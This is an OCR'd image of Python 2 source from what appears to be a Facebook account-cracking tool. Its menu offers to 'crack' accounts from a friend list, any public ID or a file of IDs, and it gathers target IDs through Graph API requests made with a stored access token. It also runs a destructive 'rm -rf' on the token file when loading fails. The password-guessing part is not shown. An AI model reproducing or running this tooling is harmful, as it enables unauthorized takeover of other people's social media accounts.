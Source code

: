 def crack_menu():
global toket
os.system("clear")
try:
toket=open("....","r").read()
except IOError:
print("[!] Token invalid")
os.system("rm -rf ....")
time.sleep(1)
os.system("python2 bxi.py")
print (logo)
print ("[1] Crack From Friend List")
print ("[2] Crack From Any Public ID")
print ("[3] Crack From File")
print ("[0] Back")
print (50*"-")
crack_action()

def crack_action():
bch = raw_input("\n ▄︻̷̿┻̿═━一 ")
if bch =="":
print ("[!] Fill in correctly")
crack_action()
elif bch =="1":
os.system("clear")
print (logo)
r = session.get("https://graph.facebook.com/me/friends?access_token="+toket)
z = json.loads(r.text)
for s in z["data"]:
id.append(s["id"])
elif bch =="2":
os.system("clear")
print (logo)
idt = raw_input("[✓] Enter ID : ")
os.system("clear")
print (logo)
try:
jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
op = json.loads(jok.text)
psb("[✓] Account Name: "+op["name"])
time.sleep(0.5)
except KeyError:
print("[!] ID Not Found!")
raw_input("\n[Back]")
crack_menu()
r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
z = json.loads(r.text)
for i in z["data"]:
id.append(i["id"])
elif bch =="3":
os.system("clear")
print (logo)
try:
idlist = raw_input("[✓] Enter File Path : ")
for line in open(idlist,"r").readlines():
id.append(line.strip())
except IOError:
print ("[!] File Not Found")
raw_input("\n[ Back ]")
crack_menu()
elif bch =="0":
menu()
else:
print ("[!] Fill in correctly")